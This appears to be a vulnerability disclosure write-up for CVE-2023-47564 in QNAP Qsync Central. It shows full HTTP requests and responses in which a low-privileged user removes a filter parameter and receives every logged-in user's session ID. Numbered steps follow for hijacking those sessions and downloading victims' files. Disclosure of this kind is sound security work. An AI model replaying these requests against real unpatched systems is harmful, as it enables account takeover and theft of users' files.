 # CVE-2023-47564
- https://www.qnap.com/en/security-advisory/qsa-24-03
- https://www.cve.org/CVERecord?id=CVE-2023-47564
- CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N (8.1)

"An incorrect permission assignment for critical resource vulnerability has been reported to affect Qsync Central. If exploited, the vulnerability could allow authenticated users to read or modify the resource via a network."

__Date of Discovery:__ December 5, 2023

__Date of Fix:__ February 3, 2024

__Affected Version(s):__ Qsync Central 4.4.x, Qsync Central 4.3.x

__Fixed Version(s):__ Qsync Central 4.4.0.15 (2024/01/04) and later, Qsync Central 4.3.0.11 (2024/01/11) and later

__Summary:__ 
During a resent pentest I got access to a QNAP system as a low-privileged user (here user123). There were no interesting files, so i digged a little bit deeper. 
On the system only the Qsync Central App (https://www.qnap.com/en/app_releasenotes/list.php?app_choose=QsyncServer) was running.
First I tried to find a list of all available users and inspected my proxy history. I stumbled about the endpoint `/cgi-bin/qsync/qboxRequest.cgi`.
This endpoint revealed information about my current user account and actually also my current session ID (sid).

The request looked as follow:

``` http
GET /cgi-bin/qsync/qboxRequest.cgi?sid=60ud018n&_dc=1701766637869&subfunc=qbox&genQboxDeviceList=1&sort=1&filteruser=user123 HTTP/2
Host: vulnhost.com
Cookie: DESKTOP=1; WINDOW_MODE=1; nas_wfm_tree_x=200; QSYNC_SID=60ud018n; QSYNC_USER=user123; NAS_SID=60ud018n; QT=1701766635952
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://vulnhost.com/cgi-bin/
X-Requested-With: XMLHttpRequest
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```

The response was:


``` http
HTTP/2 200 OK
Server: 
[...]

    <data>
        <device>
            <id><![CDATA[REDACTED]]></id>
            <type><![CDATA[3]]></type>
            <time><![CDATA[2023-12-05 09:57:14]]></time>
            <user><![CDATA[user123]]></user>
            <ip><![CDATA[REDACTED]]></ip>
            <sid><![CDATA[60ud018n]]></sid>
            <uid><![CDATA[REDACTED]]></uid>
            <action><![CDATA[1]]></action>
            <comp><![CDATA[Qsync-File Station]]></comp>
            <desc><![CDATA[File Station login Qsync]]></desc>
            <channel><![CDATA[0]]></channel>
            <online><![CDATA[0]]></online>
            <version><![CDATA[]]></version>
            <QsyncPath><![CDATA[/home/.Qsync]]></QsyncPath>
        </device>
    </data>
    <ret>0</ret>
</logroot>
</QDocRoot>
```


Interesting was the filteruser parameter. I just removed him and for my surprise a list of all users and their session IDs was returned back!
So I was able to hijack the session of every other logged-in user. For a PoC i used one of the sessions to login as a different user.
I reported the vulnerability to QNAPs Bug Bounty Program. The communication was easy and a fix was deployed fast.



__Steps to Reproduce (in detail)__: 

1. Log in to the QNAP Qsync web application as the attacker with a regular, low-privileged user account.
2. Extract the attacker's Session ID (`sid`) from the `NAS_SID` cookie set by the Qsync web application.
3. Use the attacker's `sid` value both in the `NAS_SID` cookie and the `sid` HTTP GET parameter and perform the following HTTP request:

    ``` http
    GET /cgi-bin/qsync/qboxRequest.cgi?sid=yl9osz6l&subfunc=qbox&genQboxDeviceList=1&sort=1 HTTP/2
    Host: vulnhost.com
    Cookie: NAS_SID=yl9osz6l;
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Referer: https://vulnhost.com/cgi-bin/
    X-Requested-With: XMLHttpRequest
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers
    ```

4. The valid Session IDs of all other users currently logged in to the web application can be extracted from the HTTP response, e.g.:

    ``` http
    HTTP/2 200 OK
    Server: 
    Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval' ; object-src 'self' ; worker-src 'self' blob:
    Vary: Referer
    X-Xss-Protection: 1; mode=block
    Strict-Transport-Security: max-age=0
    X-Content-Type-Options: nosniff
    Content-Type: text/xml
    Date: Tue, 05 Dec 2023 10:32:00 GMT

    <?xml version="1.0" encoding="UTF-8" ?>
    <QDocRoot version="1.0">
    <authPassed><![CDATA[1]]></authPassed><model><modelName><![CDATA[TS-X71U]]></modelName><internalModelName><![CDATA[TS-X71]]></internalModelName><platform><![CDATA[TS-NASX86]]></platform><platform_ex><![CDATA[X86_HASWELL]]></platform_ex><customModelName><![CDATA[]]></customModelName><displayModelName><![CDATA[TVS-471U-RP]]></displayModelName><sas_model><![CDATA[0]]></sas_model><storage_v2>1</storage_v2>
    <encryptfsSupported><![CDATA[1]]></encryptfsSupported></model>
    <firmware><version><![CDATA[5.1.1]]></version><number><![CDATA[2491]]></number><build><![CDATA[20230815]]></build><patch><![CDATA[0]]></patch><buildTime><![CDATA[2023/08/15]]></buildTime></firmware>
    <sp><![CDATA[ALPHA]]></sp><rfs_bits><![CDATA[32]]></rfs_bits><specVersion><![CDATA[1.0]]></specVersion><hostname><![CDATA[Data]]></hostname><DemoSiteSuppurt><![CDATA[no]]></DemoSiteSuppurt><customLogo><customFrontLogo><![CDATA[]]></customFrontLogo><customLoginLogo><![CDATA[]]></customLoginLogo></customLogo>
    <logroot>
    <ADSSupport><![CDATA[1]]></ADSSupport><trustedDomain><enable><![CDATA[0]]></enable></trustedDomain>
        <count>239</count>
        <data>
            <device>
                <id><![CDATA[REDACTED]]></id>
                <type><![CDATA[3]]></type>
                <time><![CDATA[2023-12-05 11:31:50]]></time>
                <user><![CDATA[victim]]></user>
                <ip><![CDATA[REDACTED]]></ip>
                <sid><![CDATA[12345678]]></sid></span>
                <uid><![CDATA[REDACTED]]></uid>
                <action><![CDATA[1]]></action>
                <comp><![CDATA[Qsync-File Station]]></comp>
                <desc><![CDATA[File Station login Qsync]]></desc>
                <channel><![CDATA[0]]></channel>
                <online><![CDATA[1]]></online>
                <version><![CDATA[]]></version>
                <QsyncPath><![CDATA[/home/.Qsync]]></QsyncPath>
            </device>
    [...]
    ```

    The following screenshot illustrates this issue (for privacy reasons, the Session IDs as well as identifying information about the tested QNAP Qsync instance have been redacted):

    |![](session-leak-blur.png)|
    |:--:| 
    |_Leaked Session ID values_|

5. The attacker can use the extracted `sid` values to log in as any of the victims by setting the `NAS_SID` cookie respectively. This allows the attacker to hijack the victim's session and download any file stored on the QNAP system by the victim.